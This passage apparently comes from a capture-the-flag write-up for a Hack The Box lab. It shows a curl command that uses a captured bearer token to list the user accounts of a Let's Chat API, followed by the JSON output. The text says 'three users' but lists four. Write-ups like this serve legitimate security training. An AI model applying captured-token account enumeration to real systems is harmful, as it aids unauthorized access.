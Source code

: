 Let's Chat has [several other API endpoints](https://github.com/sdelements/lets-chat/wiki/API). Use this token to query them.

There are three users: `admin`, `john`, `will`, and `lucas`.

```bash
$ curl -s http://catch.htb:5000/users -H 'Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==' | jq '.'
[
  {
    "id": "61b86aead984e2451036eb16",
    "firstName": "Administrator",
    "lastName": "NA",
    "username": "admin",
    "displayName": "Admin",
    "avatar": "e2b5310ec47bba317c5f1b5889e96f04",
    "openRooms": [
      "61b86b28d984e2451036eb17",
      "61b86b3fd984e2451036eb18",
      "61b8708efe190b466d476bfb"
    ]
  },
  {
    "id": "61b86dbdfe190b466d476bf0",
    "firstName": "John",
    "lastName": "Smith",
    "username": "john",
    "displayName": "John",
    "avatar": "f5504305b704452bba9c94e228f271c4",
    "openRooms": [
      "61b86b3fd984e2451036eb18",
      "61b86b28d984e2451036eb17"
    ]
  },
  {
    "id": "61b86e40fe190b466d476bf2",
    "firstName": "Will",
    "lastName": "Robinson",
    "username": "will",
    "displayName": "Will",
    "avatar": "7c6143461e935a67981cc292e53c58fc",
    "openRooms": [
      "61b86b3fd984e2451036eb18",
      "61b86b28d984e2451036eb17"
    ]
  },
  {
    "id": "61b86f15fe190b466d476bf5",
    "firstName": "Lucas",
    "lastName": "NA",
    "username": "lucas",
    "displayName": "Lucas",
    "avatar": "b36396794553376673623dc0f6dec9bb",
    "openRooms": [
      "61b86b28d984e2451036eb17",
      "61b86b3fd984e2451036eb18"
    ]
  }
]
```
